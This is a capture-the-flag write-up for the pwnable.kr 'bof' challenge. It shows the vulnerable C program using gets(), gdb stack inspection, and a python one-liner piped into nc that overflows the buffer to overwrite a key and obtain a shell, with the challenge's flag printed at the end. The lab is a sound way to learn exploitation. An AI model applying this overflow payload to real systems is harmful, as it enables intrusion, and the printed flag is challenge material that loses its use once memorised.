

# BOF
Let's jump into the challenge.

Download the respective files from the following links:
```
http://pwnable.kr/bin/bof
http://pwnable.kr/bin/bof.c
```

Lets look into the content of bof.c
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

* ```func``` is passed hex value ```0xdeadbeef``` as input.  This parameter is later compared to ```0xcafebabe```, and if we can enter this if statement we can get the flag. So we need to try to change the content of the key variable in the function, so that the if test will resolve to true. 

* If the test resolves to true we will get a bash shell.We need to set up netcat to get the shell.

```bash
nc pwnable.kr 9000
```

* In this challenge, we will be using the ```gets()``` function to read input from stdin into overflowme array.   

* ```gets``` -> Reads a line from stdin into the buffer pointed to by s. gets is also prone to buffer overflow and hence we can overwrite the stack.

* Lets check our executable to know the address of ```0xdeadbeef``` and overwrite it. We will use ```gdb``` for this purpose.

## Analysing executable with GDB

The GNU Debugger, also known as ```gdb``` is a portable debugger that runs on many Unix-like systems.

I started gdb.

```
gdb bof 
```

and made my first breakpoint at ```main``` function and run the program.

```
(gdb) break main
Breakpoint 1 at 0x68d
run
```

Now we need to analyze the ```func``` function.Use gdb ```disassemble``` command for this.



We can see the ```cmpl (Compare Logical)``` instruction at  ```0x80000654```, Lets set a break point exactly before it : 

```
break *0x80000654
```

Give any random input and now we will check the content of the stack.

```
(gdb) c
Continuing.
overflow me : 
AAAAAAAAAAAAAAAAAAAAAAA
```

We will check the first 50 entries of the stack with the help of ``` x/50wx $esp``` command.

```c
(gdb) x/50wx $esp
0xffffcf30:	0xffffcf4c	0x00000000	0x00000000	0xcd106000
0xffffcf40:	0x00000009	0xffffd209	0xf7ddc679	0x41414141
0xffffcf50:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf60:	0x00414141	0x00000000	0x56556ff4	0xcd106000
0xffffcf70:	0x00000000	0xf7ddc7ab	0xffffcf98	0x5655569f
0xffffcf80:	0xdeadbeef	0x00000000	0x565556b9	0x00000000
0xffffcf90:	0xf7f84000	0xf7f84000	0x00000000	0xf7dc4fa1
0xffffcfa0:	0x00000001	0xffffd034	0xffffd03c	0xffffcfc4
0xffffcfb0:	0x00000001	0x00000000	0xf7f84000	0xf7fe571a
0xffffcfc0:	0xf7ffd000	0x00000000	0xf7f84000	0x00000000
0xffffcfd0:	0x00000000	0xe76898de	0xa0691ece	0x00000000
0xffffcfe0:	0x00000000	0x00000000	0x00000001	0x56555530
0xffffcff0:	0x00000000	0xf7feade0
```

By looking at the stack we need to fill 52 bytes to reach the address of ```0xdeadbeef``` and then overwrite it to ```0xcafebabe```.

## Getting the Shell

Our system is little endian, so remember to reverse the bytes of ```\0xcafebabe```.

```c
➜  Bof git:(main) ✗ (python -c 'print("A"*52+"\xbe\xba\xfe\xca")'; cat) | nc pwnable.kr 9000
whoami
bof
ls
bof
bof.c
flag
log
log2
super.pl
cat flag
daddy, I just pwned a buFFer :)

```

and yipee got the flag.


